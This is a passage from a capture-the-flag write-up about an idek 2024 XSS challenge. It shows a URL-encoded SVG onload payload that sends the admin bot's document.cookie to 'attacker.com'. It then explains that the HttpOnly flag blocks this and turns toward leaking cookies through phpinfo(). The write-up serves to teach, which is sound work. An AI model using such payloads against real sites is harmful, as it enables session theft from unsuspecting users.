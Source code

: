 ```js
http://idek-hello.chal.idek.team:1337/?name=
<svg%0Conload=window.location=(window.location.href.substring(0, 7)%2b"attacker.com"%2bwindow.location.href.substring(5,6)%2b"cookies"%2bwindow.location.href.substring(5,6)%2bdocument.cookie)>
```

Note that `%2b` is the URL encoding for the plus character.
Okay, we should be set! Let's send the bot this payload:

![admin_bot](/assets/img/idek2024/admin_bot.png)

And let's examine the logs:

![beeceptor_logs_one](/assets/img/idek2024/beeceptor_logs_one.png)

What?! We didn't get anything?!
At first I tried this a few more times to see whether this had been a one-time thing, but I always got an empty request. At this point I got really stuck, and took a break from the challenge :)
When I returned to the challenge, I finally found the issue. Let's inspect the bot's code again, specifically the part where it sets the `FLAG` cookie:

```js
await page.goto(CHALLENGE_ORIGIN, { timeout: 3000 });
await page.setCookie({ name: 'FLAG', value: 'idek{PLACEHOLDER}', httpOnly: true });
await page.goto(TARGET_URL, { timeout: 3000, waitUntil: 'domcontentloaded' });
```

Huh! So the `FLAG` cookie has the `HttpOnly` flag set! Quoting from the [MDN page on cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies):
"A cookie with the `HttpOnly` attribute can't be modified by JavaScript, for example using [`Document.cookie`](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie); it can only be modified when it reaches the server. Cookies that persist user sessions for example should have the `HttpOnly` attribute set — it would be really insecure to make them available to JavaScript. This precaution helps mitigate cross-site scripting ([XSS](https://developer.mozilla.org/en-US/docs/Web/Security/Types_of_attacks#cross-site_scripting_xss)) attacks."
Oh... so that's why document.cookie returns an empty string...
If so, we need to find an alternative way to get the cookies of the bot. After some time, it hit me: surely there's some reason the `info.php` page exists. Indeed, the `phpinfo()` function returns the cookies of the user!
There's only a slight problem: let's look at the relevant lines for controlling access to `/info.php` on the nginx config:
